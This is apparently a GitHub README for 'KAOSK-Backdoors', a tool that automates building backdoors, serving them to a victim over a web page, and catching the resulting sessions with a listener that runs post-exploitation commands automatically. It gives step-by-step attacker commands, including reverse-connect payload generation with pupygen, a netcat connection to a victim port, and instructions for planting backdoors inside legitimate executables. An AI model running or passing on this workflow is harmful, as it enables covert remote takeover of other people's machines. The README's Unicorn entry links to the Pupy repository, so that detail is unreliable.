 # KAOSK-Backdoors
==========
It's a tool that automate: 
+ the installation of some Backdoor's creation programs
+ the creation of the backdoors to use in a victim machine
+ a web where you can download the backdoors created
+ the listener of the backdoors downloaded
+ the actions of the listener

## Example
Using Kali2 as the attacker with IP: 192.168.0.100

Using any machine as the victim in the same network as the attacker.

Run in Kali:
+ git clone https://github.com/carlospolop/KAOSK-backdoors.git
+ python ./install.py
+ python ./create_backdoors.py 192.168.0.100
+ python ./handler.py 192.168.0.100

In the victim machine:

Use a browser and navigate to 192.168.0.100/back and you will see the backdoors created before in the attacker machine.
Download the backdoor that you want to use.

Run the backdoor.


You will have a session of the victim's machine in Kali.

If you had chosen a backdoor created using msfvenom, backdoor-factory or unicorn, you will have a metasploit session of the victim. The metasploit's sessions can be configured to automatically run post modules, meterpreter commands and shell commands in the config folder. This means that when you capture a metasploit sessions this modules and commands will run automatically.

## How to configure which post modules, meterpreter commands and shell commands automatically run
You just have to go to the config folder and there you will find some folders of differents OS. Go inside anyone and you will find some text documents where you can write which post modules, meterpreters commands and shell commands run when you capture a session in a machine that uses the OS selected.

## Requirements
+ Python
+ Measploit
+ Backdoor-factory
+ Apache2

KAOSK has been tested in Kali2.

## Install
python ./install.py

## Create Backdoors
python ./create_backdoors.py <IP_attacker>

## Start handler
python ./handler.py <IP_attacker>


# To Know about the backdoors
--------------------
## Backdoors used:
+ Backdoor-factoy
+ MiaoMiao
+ Msfvenom
+ Pupy
+ RSPET
+ Unicorn

## Backdoor-factory
The backdoor-factory introduces the backdoors inside executables.

If you want to corrupt a executable, you just have to download the original, move it to the correct folder inside ./BDF_prepared and run python ./create_backdoors.py <IP_attacker> (or python ./backdoor-factoryAuto.py <IP_attacker>)

https://github.com/secretsquirrel/the-backdoor-factory.git

## MiaoMiao
This backdoor opens a port in the victims machine and the attacker connects to it. The default port is 55555
To use this backdoor you have to run:
+ Victim: Run MiaoMiamo_folder/src_backdoor/server_dist/newest_version
+ Attacker: nc IP_Victim 55555 -vv

https://github.com/marc0l92/MiaoMiao_project.git

## Msfvenom
Of course.

## Pupy
Creates differents types of backdoors and use it's own listener. It is all automated and the process followed to use these backdoors is:
+ Victim: Run the file create using ./pupygen.py -f lin_x64  connect --host IP_Attacker
+ Attacker: ./pupysh.py

https://github.com/n1nj4sec/pupy.git

## RSPET
To use this backdoor you have to run:
+ Victim: Run python RSPET_folder/Client/rspet_client.py <IP_Attacker>
+ Attacker: (This part is automated) Run Server > rspet_server.py 

https://github.com/panagiks/RSPET.git

## Unicorn
Creates differents types of backdoors and it is all automated.
Use metasploit as listener.

https://github.com/n1nj4sec/pupy.git
